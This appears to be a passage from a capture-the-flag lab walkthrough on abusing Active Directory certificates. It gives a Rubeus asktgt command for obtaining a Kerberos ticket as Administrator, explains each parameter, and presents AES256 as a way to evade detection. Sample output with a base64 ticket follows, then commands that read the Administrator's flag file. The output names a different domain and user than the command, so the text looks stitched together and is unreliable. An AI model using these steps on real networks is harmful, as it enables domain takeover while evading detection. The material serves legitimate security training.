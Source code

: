 ```
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:<path to certificate> /password:<certificate file password> /outfile:<name of file to write TGT to> /domain:za.tryhackme.loc /dc:<IP of domain controller>
``` 


Let's break down the parameters:

- **/user** - This specifies the user that we will impersonate and has to match the UPN for the certificate we generated
- **/enctype** -This specifies the encryption type for the ticket. Setting this is important for evasion, since the default encryption algorithm is weak, which would result in an overpass-the-hash alert
- **/certificate** - Path to the certificate we have generated
- **/password** - The password for our certificate file
- **/outfile** - The file where our TGT will be output to
- **/domain** - The FQDN of the domain we are currently attacking
- **/dc** - The IP of the domain controller which we are requesting the TGT from. Usually it is best to select a DC that has a CA service running

Once we execute the command, we should receive our TGT:

```shell-session
C:\THMTools> .\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:12.31.1.101
 ______ _
 (_____ \ | |
 _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/
 
 v2.0.0
 
 [*] Action: Ask TGT
 
 [*] Using PKINIT with etype aes256_cts_hmac_sha1 and subject: CN=vulncert
 [*] Building AS-REQ (w/ PKINIT preauth) for: 'lunar.eruca.com\svc.gitlab'
 [+] TGT request successful!
 [*] base64(ticket.kirbi):
 
 doIGADCCBfygAwIBBaEDAgEWooIE+jCCBPZhggTyMIIE7qADAgEFoREbD0xVTkFSLkVSVUNBLkNPTaIk
 MCKgAwIBAqEbMBkbBmtyYnRndBsPbHVuYXIuZXJ1Y2EuY29to4IErDCCBKigAwIBEqEDAgECooIEmgSC
 BJaqEcIY2IcGQKFNgPbDVY0ZXsEdeJAmAL2ARoESt1XvdKC5Y94GECr+FoxztaW2DVmTpou8g116F6mZ
 nSHYrZXEJc5Z84qMGEzEpa38zLGEdSyqIFL9/avtTHqBeqpR4kzY2B/ekqhkUvdb5jqapIK4MkKMd4D/
 MHLr5jqTv6Ze2nwTMAcImRpxE5HSxFKO7efZcz2glEk2mQptLtUq+kdFEhDozHMAuF/wAvCXiQEO8NkD
 zeyabnPAtE3Vca6vfmzVTJnLUKMIuYOi+7DgDHgBVbuXqorphZNl4L6o5NmviXNMYazDybaxKRvzwrSr
 2Ud1MYmJcIsL3DMBa4bxR57Eb5FhOVD29xM+X+lswtWhUO9mUrVyEuHtfV7DUxA94OvX1QmCcas4LXQW
 ggOit/DCJdeyE8JjikZcR1yL4u7g+vwD+SLkusCZE08XDj6lopupt2Hl8j2QLR2ImOJjq54scOllW4lM
 Qek4yqKwP6p0oo4ICxusM8cPwPUxVcYdTCh+BczRTbpoKiFnI+0qOZDtgaJZ/neRdRktYhTsGL39VHB5
 i+kOk3CkcstLfdAP1ck4O+NywDMUK+PhGJM/7ykFe2zICIMaGYGnUDRrad3z8dpQWGPyTBgTvemwS3wW
 NuPbQFFaoyiDiJyXPh+VqivhTUX9st80ZJZWzpE7P1pTNPGq38/6NyLjiE9srbOt6hCLzUaOSMGH1Enf
 SYmNljeW2R0gsFWBaFt16AHfT9G9Et2nOCJn/D/OFePFyR4uJF44p82CmVlBhzOxnCaGtQM2v9lwBqQF
 CcVLjxGXqKrPUr1RUGthP861jhMoXD4jBJ/Q32CkgVdlJRMweqcIfNqP/4mEjbUN5qjNqejYdUb/b5xw
 S794AkaKHcLFvukd41VTm87VvDOp6mM5lID/PLtTCPUZ0zrEb01SNiCdB5IAfnV23vmqsOocis4uZklG
 CNdI1/lsICpS/jaK6NM/0oKehMg+h4VAFLx4HnTSY4ugbrkdxU948qxPEfok/P6umEuny7yTDQFoCUKk
 RuLXbtwwplYTGBDLfzwhcNX8kc/GGLbH9+B8zRXxhd3TGQ7ZT03r798AjobKx024ozt6g4gjS5k/yIT+
 f29XrPzc+UODunO2Qv8JM5NAE3L6ryHp/DdgTaXGBRccgQBeQERNz6wxkdVK6SB7juOjU5JoZ5ZfmTuO
 hQ5hnboH1GvMy4+zeU2P7foWEJE76i9uZMbjUilbWRERYUL/ZjjXQBVWBaxoAdFIoawAzSXUZniNavnS
 n22qqgbd79Zj+lRavAb7Wlk5Gul4G6LMkh2MIJ4JOnrV0JV1yOhoqZ5V6KX/2r7ecyrVZIf2Qf0+ci9G
 vboJiLvWKgXkx7VaKbcLhO743BNYyq57nPNvWhVt3jbFmEq4nTdNou6hQHG4O5hVMhBKGgTwYz3yFPOP
 iuxroniQawSUJbmwObxVeoculPhxEJ69MSgKROTXrKrQAJ84D5QJHQYZus6w+LtodZn1//ZLhgILeFsY
 5K6d4ot2eqEr/A4Vu+wFjGjw87FTvHVcf8HdtGhqkawtPOrzo4HxMIHuoAMCAQCigeYEgeN9geAwgd2g
 gdowgdcwgdSgKzApoAMCARKhIgQgQr+FUX+/G2jHgAR2ssW11+lhaPlB6dMD8V5/rENwJVWhERsPTFVO
 QVIuRVJVQ0EuQ09NohcwFaADAgEBoQ4wDBsKc3ZjLmdpdGxhYqMHAwUAQOEAAKURGA8yMDIyMDIwNjE3
```

[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> type C:\Users\Administrator\Desktop\flag2.txt